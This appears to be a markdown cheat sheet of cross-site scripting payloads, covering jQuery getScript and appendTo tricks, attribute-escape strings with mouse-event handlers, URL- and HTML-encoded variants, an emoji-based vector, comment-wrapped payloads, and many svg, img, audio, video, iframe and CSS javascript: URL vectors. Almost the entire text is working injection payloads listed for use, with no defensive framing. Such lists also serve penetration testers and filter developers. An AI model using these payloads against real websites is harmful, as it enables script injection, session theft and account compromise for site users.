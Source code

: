 ## jquery basic xss
```js
//this can get external scripts 
$.getScript("javascript:alert(1)");
$.getScript('javascript:alert(1)');

$( "<img src=x onerror=alert(1)>" ).appendTo("body");
$().map(alert(1))

```

## HTML element escape

```js
foo'" onmouseenter="alert(document.domain)" bar
foo%27%22onmouseenter%3d%22%28alertdocument.domain%29%22%20bar%2ecom
foo'" onmousemove="alert(document.domain)" bar
foo'" onmouseenter="alert(document.domain)" bar.csv
foo'\" onmouseenter=\"alert(document.domain)\" bar.html

```


## modified
`
```js
//more less common
'"/><svg src=x onerror=confirm(document.domain)>
'"/><img src=x onerror=prompt(document.domain)>
'"/><img src=x onerror=prompt`document.domain`>
'&quot;&gt;&lt;img src=x onerror=prompt`document.domain`&gt;
&lt;script&gt;alert(document.domain)&lt;/script&gt;
&lt;scri\pt&gt;confirm(1)&lt;/scri\pt&gt;

//emoji xss : explanation: https://medium.com/@fpatrik/how-i-found-an-xss-vulnerability-via-using-emojis-7ad72de49209
💋img src=x onerror=alert(document.domain)//💛



//sometimes things inside comments is ignored by parser
<!--'"/><img src=x onerror=prompt(document.domain)>
<!--'"/><svg src=x onerror=confirm(document.domain)>
<!--'\"/><img src=x onerror=prompt(document.domain)>
<!-- <textarea><img title="</textarea><img src=x onerror=alert()>"></textarea>
<!--<textarea><img title=\"</textarea><img src=x onerror=alert()>\"></textarea>
<svg xmlns="http://www.w3.org/2000/svg"><animate onbegin="confirm(document.domain)"></animate></svg>
<div style="background-image:url(javascript:confirm(document.domain))"></div>
<iframe src="data:text/html,<script>confirm(document.domain)</script>"></iframe>
<svgonload=alert(1)>
<svg/onerror=alert('XSS')>
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<audio src="JaVaScRiPt:cOnFiRm(1)"></audio>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<h1 style="background-color:red;background-image:url('javascript:confirm`1`')">B2<h1>
<h1 style="background-color:red;background-image:url('javascript:confirm(1)')">B2<h1>
```
